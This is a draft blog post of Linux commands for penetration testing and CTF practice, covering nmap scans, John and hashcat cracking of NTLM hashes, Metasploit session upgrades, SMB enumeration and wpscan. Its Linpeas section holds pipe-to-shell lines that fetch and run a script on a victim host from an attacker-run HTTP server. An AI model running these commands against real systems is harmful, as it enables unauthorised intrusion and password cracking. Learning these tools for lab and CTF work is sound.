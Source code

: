```yaml
---
title: Linux Commands for Hacking and Security
date: 2023-08-08
author: Abhinav Kumar
image: {
  src: "/images/bash.jpeg",
  alt: "Bash for Hackers",
}
description: Linux commands and shortcuts very often used by Hackers, Security professionals, CTF Players.
draft: true
category: Hacking 101
---
```


Linux commands that are often used by hackers, security professional and CTF players. We will avoid any payloads or oneliner exploits ( will cover in different page sometime).

### Add Target to hosts file

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ echo '10.10.196.20 blue.thm' | sudo tee -a /etc/hosts
[sudo] password for abhinav: 
10.10.196.20 blue.thm
```

### Nmap

```bash
sudo nmap -sC -sV -p- -T5 -Pn targethost
sudo nmap -sU -sV -p- -T5 -Pn targethost
```

Start Metasploit with database



Cracking hash with John

```bash
──(abhinav㉿ETHICALHACKX)-[~]
└─$ john hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt 
```

Cracking hash with hashcat

Windows NTLM Hash
```bash
hashcat -m 1000 -a 0 hash /usr/share/wordlists/rockyou.txt.gz
```

Metasploit Shell Upgrade to Meterpreter
sessions -u 3
sessions -u -1
use post/multi/manage/shell_to_meterpreter
run session=-1


## Extract Files

Gz Files

gunzip archive.gz

```bash
tar –xvzf archive.tar.gz
```

## SSH Connection 

ssh username@host -oHostKeyAlgorithms=+ssh-dss


## Text Filter

grep -i ]- inlcude
grep -v ]- exclude

## SMB Enumeration

nmap

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.232.56
```

```bash
smbclient //IP/directory
```

mount NFS

make directory locally and mount it
```bash
mkdir /mnt/sampleDIR
sudo mount IP:/folder /mnt/sampleDIR
```
## netcat

get version via banner
nc IP port

## Linpeas

# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

Python Simple HTTP Server


python3 -m http.server 7777
curl 10.10.10.10/linpeas.sh | sh #Victim

### Wordpress CMS Vulnerabilty Scanning

```bash
wpscan --url https://brainfuck.htb --disable-tls-checks
```